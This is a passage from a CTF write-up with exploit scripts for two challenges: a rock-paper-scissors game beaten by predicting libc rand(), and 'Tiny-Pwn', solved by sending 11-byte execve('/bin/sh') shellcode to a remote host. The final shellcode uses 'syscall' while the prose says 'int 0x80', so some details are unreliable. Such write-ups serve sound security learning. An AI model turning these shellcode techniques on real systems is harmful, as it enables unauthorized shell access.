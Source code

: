```PY
win = {
	"s": "r",
	"r": "p",
	"p": "s"
}
p.recvuntil("prize.")
p.recvuntil("play!")

for i in range(50):
	pc = "rps"[libc.rand() % 3]
	p.recvuntil("Enter your choice (r/p/s): ")
	p.sendline(win[pc])

p.interactive()
```

## Tiny-Pwn

Tinypwn was the first pwn challenge I encountered in the CTF. It was pretty easy and I managed to solve it very quick, and even first blooded it:

<img src="https://user-images.githubusercontent.com/56035342/270772724-6895a593-3d57-49d0-b26e-42689f490cdb.png"/>

It was a small 32-bit binary, just 69 bytes, and did the following:

<img src="https://user-images.githubusercontent.com/56035342/270767152-6008e3e6-3580-465c-a798-93f0f536cba2.png"/>

Writing 0xd bytes into the stack and jumping to it lets us execute a shellcode of size 0xd.To set up `exceve(/bin/sh)` shellcode, I ran `strings --radix=x tinypwn`. This showed that the string `/bin/sh` is located at offset 0x20, and the binary base is 0x10000, meaning `/bin/sh` is at 0x10020.
To execute `/bin/sh` via the `exceve` syscall, we need `eax=0xb` (the syscall number), `ebx=/bin/sh`, `edx=0`, and `ecx=0` as parameters. However, we can only write 0xd bytes, so we need to be creative. The instruction `mov eax, 0xb` is 5 bytes, which is too long.
We can leverage the fact that syscalls put their return value in `eax`. For example, the read syscall will return the number of bytes read. This lets us write exactly 0xb bytes, saving us the instruction `mov eax, 0xb`. We can then write `xor edx, edx` and `xor ecx, ecx` (2 bytes each), `mov ebx, 0x10020` (5 bytes), and `int 0x80` (2 bytes).
This adds up to 0xb bytes exactly what we needed and we successfully exploited this challenge.
Final code:

```PY
from pwn import *
p = remote("vsc.tf" , 3026)

shellcode = """
xor edx, edx\n
xor ecx, ecx\n
mov ebx, 0x10020\n
syscall\n
"""

p.send(asm(shellcode))
p.interactive()
```
